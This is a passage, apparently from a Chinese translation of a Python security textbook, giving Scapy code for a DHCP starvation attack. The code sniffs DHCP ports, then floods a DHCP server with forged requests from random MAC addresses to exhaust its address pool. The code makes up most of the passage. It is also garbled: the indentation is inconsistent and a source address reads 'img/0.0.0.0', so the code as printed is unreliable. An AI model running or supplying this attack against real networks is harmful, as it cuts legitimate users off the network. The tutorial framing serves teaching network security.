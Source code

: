 这个函数被调用来处理嗅探器接收到的每个数据包

1.  现在我们必须创建另一个函数来配置嗅探器。这个函数被线程调用：

```py
def sniff_udp_packets():
    sniff(filter="udp and (port 67 or port 68)",
          prn=callback_dhcp_handle,
          store=0)  
```

这将开始嗅探到端口`67`和`68`的 UDP 数据包

1.  现在我们可以创建一个 DHCPRequest 数据包并将其发送到我们计划饥饿的 DHCP 服务器：

```py
def occupy_IP():
    for i in range(250):
        requested_addr = "192.168.1."+str(2+i)
        if requested_addr in ip:
             continue
          src_mac = ""
          while src_mac in mac:
              src_mac = RandMAC()
         mac.append(src_mac)    
          pkt = Ether(src=src_mac, dst="ff:ff:ff:ff:ff:ff")
          pkt /= IP(src="img/0.0.0.0", dst="255.255.255.255")
          pkt /= UDP(sport=68, dport=67)
          pkt /= BOOTP(chaddr="\x00\x00\x00\x00\x00\x00",xid=0x10000000)
          pkt /= DHCP(options=[("message-type", "request"),
                               ("requested_addr", requested_addr),
                              ("server_id", "192.168.1.1"),
                               "end"])
          sendp(pkt)
          print ("Trying to occupy "+requested_addr)
          sleep(0.2)  # interval to avoid congestion and packet loss 
```

这将首先在指定范围内生成一个 IP 地址。此外，它将为数据包创建一个随机的 MAC 地址。然后，它将使用生成的 IP 地址和 MAC 地址来创建一个 DHCP 请求数据包。然后，它将发送数据包。生成的数据包将如下所示：

![](img/00061.jpeg)

1.  现在我们可以启动线程，尝试在 DHCP 服务器中占用 IP 地址：

```py
def main():
    thread = Thread(target=sniff_udp_packets)
    thread.start()
    print ("Starting DHCP starvation...")
   while len(ip) < 100: 
    occupy_IP()
    print ("Targeted IP address starved")   
  main()

```

1.  现在，以所需的权限运行脚本。
